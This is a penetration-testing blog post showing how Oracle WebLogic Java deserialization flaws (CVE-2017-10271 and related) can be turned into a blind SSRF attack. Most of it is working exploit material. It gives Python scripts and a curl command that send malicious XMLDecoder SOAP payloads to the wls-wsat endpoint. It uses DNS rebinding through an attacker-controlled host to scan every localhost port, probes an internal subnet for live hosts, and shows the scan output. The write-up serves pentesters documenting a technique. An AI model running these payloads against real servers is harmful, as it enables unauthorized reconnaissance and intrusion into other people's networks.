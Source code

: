 ```yaml
---
layout: post
title: "Blind SSRF with Oracle WebLogic Deserialization"
date: 2020-09-26 22:00:00 +0300
author: snovvcrash
categories: /pentest
tags: [external-pentest, oracle, weblogic, java-deserialization, bind-ssrf, dns-rebinding, python]
published: true
---
```


A way to get an impact from exploiting Oracle WebLogic Server Java deserialization vulnerabilities (CVE-2017-3506, CVE-2017-10271, CVE-2019-2725, CVE-2019-2729) without triggering RCE through an SSRF attack.

<!--cut-->

![banner.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

If you have discovered a running instance of Oracle WebLogic Server (>= 12.2.1.3) that is vulnerable to a Java deserialization attack during a pentest engagement but firing up RCE directly is not acceptable for you for some reason, then there is an alternative way to show impact to the Customer with an SSRF attack.

This type of vulnerabilities is usually exploited via deserialization of the `java.lang.ProcessBuilder` class to achieve command execution at the victim's host. Another class that can be successfully deserialized with a malicious SOAP request is `java.net.URL` which tries to interact with the provided URL. This attack scenario is implemented in [this](https://github.com/kkirsche/CVE-2017-10271) CVE-2017-10271 checker, for example. We can combine this trick with a blind SSRF attack to scan local ports listening on the target machine as well as discover new hosts within target's local network.

## Local Port Scan

### Python Simple HTTP Server

I built the following Python script and looped it through every TCP port at victim's localhost.

The script is mainly based on the [1u.ms](http://1u.ms/) service for DNS rebinding: it brings up a simple HTTP server on the attacker's box and then sends a malicious SOAP request to the target with `http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:<PORT>` as a payload. If the target host **does not** have provided `<PORT>` opened, then DNS rebinding will be triggered and I will see that the response from victim came back right to my host (because the DNS query could not be resolved to victim's `127.0.0.1:<PORT>`). If the target host **does** have this `<PORT>` opened, then DNS rebinding will not be triggered and I will not see a response on my box which means victim's machine successfully resolved this DNS query to its localhost at the first place.

```
$ for port in `seq 1 65535`; do sudo ./ssrf-port-scan.py $port 2>&1 | tee -a ports.log; done
```

```python
#!/usr/bin/env python3

import sys
import urllib3
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

import requests

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


class HTTPServerInThread(Thread):

	def __init__(self, address, port):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SimpleHTTPRequestHandler)

	def run(self):
		#print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


if __name__ == '__main__':
	port = int(sys.argv[1])

	headers = {'Content-Type': 'text/xml;charset=UTF-8'}
	data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method = "openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

	server = HTTPServerInThread(address='0.0.0.0', port=port)
	server.daemon = True
	server.start()

	print(port)
	resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False)
	if resp.status_code != 500:
		print(f'[?] Status code for port {port} is {resp.status_code}')
```

Here is a PoC request that validates that the default WebLogic Server 7001/TCP port is listened on victim's 127.0.0.1:

[![burp-poc-7001.png](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)](/assets/images/blind-ssrf-with-oracle-weblogic-deserialization/burp-poc-7001.png)
{:.center-image}

### tcpdump

An easier way to validate status of the remote port is to use tcpdump to monitor victim's responses:

```
$ sudo tcpdump -n -i eth0 -A -s0 'src <TARGET_IP> and tcp'
$ curl -i -s -k -X $'POST' \
    -H $'Host: <TARGET_IP>' \
    -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36' \
    -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: text/xml;charset=UTF-8' -H $'Content-Length: 574' \
    --data-binary $'<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\">\x0d\x0a  <soapenv:Header>\x0d\x0a    <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\">\x0d\x0a      <java version=\"1.8\" class=\"java.beans.XMLDecoder\">\x0d\x0a        <void id=\"url\" class=\"java.net.URL\">\x0d\x0a          <string>http://make-127.0.0.1-and-<ATTACKER_IP>rr.1u.ms:7001</string>\x0d\x0a        </void>\x0d\x0a        <void idref=\"url\">\x0d\x0a          <void id=\"stream\" method = \"openStream\" />\x0d\x0a        </void>\x0d\x0a      </java>\x0d\x0a    </work:WorkContext>\x0d\x0a    </soapenv:Header>\x0d\x0a  <soapenv:Body/>\x0d\x0a</soapenv:Envelope>' \
    $'http://<TARGET_IP>/wls-wsat/CoordinatorPortType'
```

## Host Discovery

A similar approach can be used to discover live hosts within victim's local network. This attack is even more blind because you should guess a network range first as well as make a guess which port is definitely opened on a testing machine. I chose the 88 port to discover Kerberos KDC service on domain controllers within `192.168.10.0/24` network as an example. I do not use DNS rebinding here but instead look for request timeout events to differentiate live hosts:

```python
#!/usr/bin/env python3

import urllib3
from ipaddress import IPv4Network

import requests

if __name__ == '__main__':
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        headers = {'Content-Type': 'text/xml;charset=UTF-8'}

        port = 88
        for ip in (str(i) for i in IPv4Network('192.168.10.0/24')):
                data = f"""<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void id="url" class="java.net.URL">
          <string>http://{ip}:{port}</string>
        </void>
        <void idref="url">
          <void id="stream" method="openStream" />
        </void>
      </java>
    </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
"""

                try:
                        resp = requests.post('http://<TARGET_IP>/wls-wsat/CoordinatorPortType', headers=headers, data=data, verify=False, timeout=4)
                except requests.Timeout:
                    print(f'[-] {ip}:{port}')
                else:
                    print(f'[+] {ip}:{port}')
```

```
$ python3 -u ssrf-v2.py |tee ssrf-v2-10-154-0-0_24-port88.log
[-] 192.168.10.0:88
[-] 192.168.10.1:88
[-] 192.168.10.2:88
[-] 192.168.10.3:88
[-] 192.168.10.4:88
[-] 192.168.10.5:88
[-] 192.168.10.6:88
[-] 192.168.10.7:88
[-] 192.168.10.8:88
[-] 192.168.10.9:88
[+] 192.168.10.10:88
[-] 192.168.10.11:88
[-] 192.168.10.12:88
[-] 192.168.10.13:88
```

## Refs

* [Плохая логика. Выполняем произвольный код в популярном сервере приложений Oracle WebLogic — «Хакер»](https://xakep.ru/2018/01/18/oracle-weblogic-exploit/)
* [Подделка серверных запросов, эксплуатация Blind SSRF / Взрывной блог](https://bo0om.ru/blind-ssrf)
